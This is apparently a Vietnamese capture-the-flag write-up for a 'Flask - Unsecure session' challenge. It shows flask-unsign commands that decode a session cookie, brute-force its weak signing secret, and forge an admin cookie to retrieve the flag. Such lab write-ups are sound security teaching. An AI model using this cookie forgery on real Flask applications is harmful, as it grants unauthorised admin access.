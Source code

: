 # Flask - Unsecure session

## Solution

- Decode session:

    Bắt đầu bằng cách decode Cookie được cung cấp để hiểu nội dung của nó:

    ```
    flask-unsign --decode --cookie 'eyJhZG1pbiI6ImZhbHNlIiwidXNlcm5hbWUiOiJndWVzdCJ9.ZWczRw.Tw5eCtypUwE7t96NCbRQzrjX1UM'
    ```

    Dữ liệu session sau khi decode:

    ```
    {'admin': 'false', 'username': 'guest'}
    ```

- Brute-force và Unsign để tìm Secret:

    ```
    flask-unsign --unsign --cookie 'eyJhZG1pbiI6ImZhbHNlIiwidXNlcm5hbWUiOiJndWVzdCJ9.ZWczRw.Tw5eCtypUwE7t96NCbRQzrjX1UM'
    ```

    Sau khi brute-force thành công, secket key sẽ được tiết lộ:

    ```
    [+] Found secret key after 19968 attempts: 's3cr3t'
    ```

- Chỉnh sửa session:
    Sử dụng secret thu được, thực hiện chỉnh sửa session để nâng quyền:

    ```
    flask-unsign --sign --cookie "{'admin': 'true', 'username': 'admin'}" --secret 's3cr3t'
    ```

- Lấy flag:
    Với phiên được chỉnh sửa, ứng dụng tạo session key mới. Sử dụng key này để truy cập quyền admin và lấy flag.